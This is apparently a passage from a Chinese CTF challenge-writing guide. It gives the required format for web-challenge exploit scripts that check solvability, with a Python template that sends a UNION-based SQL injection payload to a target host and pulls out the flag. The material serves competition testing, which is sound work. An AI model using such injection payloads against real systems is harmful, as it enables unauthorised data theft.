 Exp脚本，请务必按照此格式编写 EXP，接收 目标IP，目标端口，预期FLAG 三个参数，**如写死这些参数，直接不通过！**

**所有WEB题目都需要提交EXP脚本！**

```python
#!/usr/bin/python
#  -*- coding: utf-8 -*-
import re
import sys
import requests

# 输入为靶机 IP 和端口以及要验证的 flag
HOST = sys.argv[1]
PORT = sys.argv[2]
FLAG = sys.argv[3]

# exp 函数
def exp(ip, port):
    # 构造 Payload
    payload = "3 union select 1,flag from flag limit 1"

    # 请求靶机
    r = requests.get("http://%s:%s/?id=%s" % (ip, port, payload))
    # print(r.text)

    # 匹配 FLAG
    match_group = re.findall("DASCTF{(.*?)}", r.text)
    flag = match_group[0]

    return flag


# 主逻辑
if __name__ == '__main__':
    flag = exp(HOST, PORT)
    # print(flag)
    # 比较得出的 flag 是否是想要的 flag
    assert flag == FLAG
    print("Pass!")
```

![](16_填写指南_image.png)

Checker
-------

